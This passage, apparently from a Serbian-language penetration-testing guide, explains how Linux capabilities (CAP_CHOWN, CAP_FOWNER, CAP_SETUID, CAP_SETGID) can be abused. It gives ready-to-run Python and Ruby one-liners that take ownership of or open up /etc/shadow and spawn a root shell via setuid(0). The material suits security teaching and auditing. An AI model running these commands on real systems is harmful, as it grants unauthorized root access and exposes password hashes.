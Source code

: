 ```bash
python -c 'import os;os.chown("/etc/shadow",1000,1000)'
```

Ili sa **`ruby`** binarnim fajlom koji ima ovu sposobnost:

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```

## CAP\_FOWNER

**Ovo znači da je moguće promeniti dozvole bilo koje datoteke.**

**Primer sa binarnim fajlom**

Ako Python ima ovu sposobnost, možete promeniti dozvole fajla shadow, **promeniti root lozinku**, i povećati privilegije:

```bash
python -c 'import os;os.chmod("/etc/shadow",0666)
```

### CAP\_SETUID

**Ovo znači da je moguće postaviti efektivni korisnički ID kreiranog procesa.**

**Primer sa binarnim fajlom**

Ako python ima ovu **mogućnost**, vrlo lako je zloupotrebiti je kako bi se povećale privilegije do root korisnika:

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

**Još jedan način:**

```python
import os
import prctl
#add the capability to the effective set
prctl.cap_effective.setuid = True
os.setuid(0)
os.system("/bin/bash")
```

## CAP\_SETGID

**Ovo znači da je moguće postaviti efektivni grupni ID kreiranog procesa.**

Postoji mnogo datoteka koje možete **prepisati da biste povećali privilegije,** [**možete dobiti ideje ovde**](payloads-to-execute.md#overwriting-a-file-to-escalate-privileges).

**Primer sa binarnom datotekom**

U ovom slučaju trebali biste tražiti zanimljive datoteke koje grupa može čitati jer možete preuzeti identitet bilo koje grupe:
